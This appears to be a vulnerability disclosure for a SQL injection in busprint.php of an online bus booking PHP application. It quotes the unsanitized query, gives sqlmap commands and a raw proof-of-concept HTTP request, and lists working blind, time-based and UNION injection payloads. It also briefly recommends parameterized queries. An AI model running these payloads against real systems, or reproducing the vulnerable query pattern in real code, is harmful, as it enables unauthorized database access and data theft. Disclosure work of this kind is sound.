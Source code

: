 

# 8. busprint.php sql injection

![image](https://github.com/gtqbhksl/weekdays_something/assets/113713406/2c023471-b205-48ac-aa98-8c3c4cce366e)

in busprint.php source code

```
$pid=$_GET['pid'];
$sel="SELECT * FROM `bustransactions` WHERE `T_No.` =$pid";
```

![image](https://github.com/gtqbhksl/weekdays_something/assets/113713406/5b77f07e-1571-4a34-8ef1-59583b4cc4a5)

can use `sqlmap -u http://onlinebus/busprint.php?pid=7` to verify it

Parameterized queries or precompiled statements should be used to ensure that user input is processed and escaped correctly. This can prevent attackers from tampering with query logic by injecting malicious code.


POC:

```
GET /onlinebus/busprint.php?pid=52 HTTP/1.1
Host: 192.168.253.1
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://onlinebus/sindex.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=jmetab2u149tgvq0m6nh6mbeh9
Connection: close

```

`sqlmap -r r.txt`

![1706534379495](https://github.com/gtqbhksl/weekdays_something/assets/113713406/f829c380-2eb5-4582-82ba-07c92ae1416b)


```
Parameter: pid (GET)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: pid=(SELECT (CASE WHEN (8557=8557) THEN 52 ELSE (SELECT 9263 UNION SELECT 8903) END))

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: pid=52 AND (SELECT 3421 FROM (SELECT(SLEEP(5)))mwzB)

    Type: UNION query
    Title: Generic UNION query (NULL) - 14 columns
    Payload: pid=52 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x71706b7a71,0x4679574546665a5863784855456c626f596464586d47544f77764f6e624841444b58685a4d5a4251,0x7170787a71),NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -

```
